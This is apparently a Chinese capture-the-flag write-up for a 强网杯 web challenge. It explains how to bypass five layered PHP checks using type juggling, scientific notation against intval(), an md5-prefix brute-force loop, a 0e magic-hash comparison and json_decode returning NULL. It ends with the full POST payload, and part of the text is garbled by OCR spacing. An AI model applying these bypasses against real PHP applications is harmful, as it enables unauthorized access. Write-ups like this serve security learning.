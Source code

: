 ## 代码在强网杯web

![image-20210614152407674](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210614152407674.png)

第一层：要求非纯数字，利用PHP的格式转换（字符串比较读取）$num1=1025a即可
第二层：绕过intval()，方式利用科学计数法绕过 n u m 2 = 5 e 5 第 三 层 ： 利 用 脚 本 跑 m d 5 即 可 ， num2=5e5

第三层：利用脚本跑md5即可num3=61823470

```
<?php 
for ($a=60000000;$a<70000000;$a++)
{
	if(substr(md5($a),0,7)=='4bf21cd')	
	{
		echo $a;
	}
}
?>
```

第四层：科学计数法绕过：$num4=0e00000
第五层：JSON 格式的字符串,要求为空，这个json_decode在解析非json格式的时候会自动置空NULL，所以很容易绕过 $num5=[
最后POST格式传参即可：
ppp[number1]=1025a&ppp[number2]=5e5&ppp[number3]=61823470&ppp[number4]=0e00000&ppp[number5]=[

